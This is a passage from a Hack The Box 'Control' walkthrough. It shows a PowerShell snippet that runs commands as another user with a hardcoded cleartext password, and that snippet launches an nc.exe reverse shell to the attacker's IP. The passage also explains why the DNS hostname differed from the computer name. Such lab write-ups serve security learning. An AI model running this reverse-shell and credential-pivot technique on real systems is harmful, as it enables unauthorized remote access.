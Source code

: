 ```
```

I found the following tricks on [Hack Tricks][hacktricks], on this [page][hacktrickssudo]:

[hacktrickssudo]:https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters#sudo

```powershell
# create a credential object
$pass = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('CONTROL\Hector', $pass)
# check if credentials are working executing
Invoke-Command -Computer Fidelity -ScriptBlock { whoami } -Credential $cred
# Now the real command
Invoke-Command -Computer Fidelity -Credential $cred -ScriptBlock { cmd /c "C:\inetpub\wwwroot\uploads\nc.exe -e powershell 10.10.15.123 10000" }
```

I lost hours at this step. Why?

Because of troll from the challenge author.

The `Invoke-Command` command requires the right hostname to work even if it is
localhost else it fails with an obscure error.

When you get the hostname of the machine in a classic way, or with enumeration
tool or if you guess that the name of the HTB box, you will think that the
hostname is `CONTROL` right?

```
PS C:\inetpub\wwwroot> gc env:computername
CONTROL

PS C:\inetpub\wwwroot> $env:computername
CONTROL

c:\>echo %computername%
CONTROL
```

Not at all, I don't understand why but the legacy `Hostname.exe` returns
`Fidelity`, same in powershell..

```
PS C:\inetpub\wwwroot> Hostname.exe
Fidelity

PS C:\inetpub\wwwroot> [System.Net.Dns]::GetHostName()
Fidelity
```

So here I learned that the hostname (DNS) != hostname (computer name).
Most of the time this will be the same, but here it was not.

For professional and attentive guesser, `Fidelity` was written on the home
page of the webapp.

Now that our powershell `runas` works we can grab the user flag.
